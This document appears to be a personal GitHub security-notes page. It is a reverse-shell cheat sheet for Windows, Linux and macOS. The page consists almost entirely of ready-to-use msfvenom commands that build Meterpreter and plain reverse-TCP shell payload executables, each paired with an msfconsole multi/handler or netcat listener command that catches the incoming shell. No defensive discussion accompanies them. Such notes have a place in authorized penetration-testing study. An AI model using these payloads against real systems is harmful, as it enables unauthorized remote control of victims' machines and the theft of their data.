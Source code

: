 # Security Notes
Documenting my journey in the world of CyberSecurity




##  Reverse Conneciton 

### Meterpreter
**Windows**

MSFVenom Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
**Linux**  

MSFVenom Payload
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```

**MACOS**

MSFVenom Payload
```bash
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f macho > payload.macho
```

MSFConsole Listener
```
msfconsole -x "use exploit/multi/handler; set payload osx/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
### Netcat

**Windows** 

MSFVenom Payload
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
Netcat Listener
```
nc -lvp <Your_Port>
```
**Linux**
 
MSFVenom Payload
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
Netcat Listener
```
nc -lvp <Your_Port>
```
Replace <Your_IP> with your IP address and <Your_Port> with the desired port number for the reverse connection.

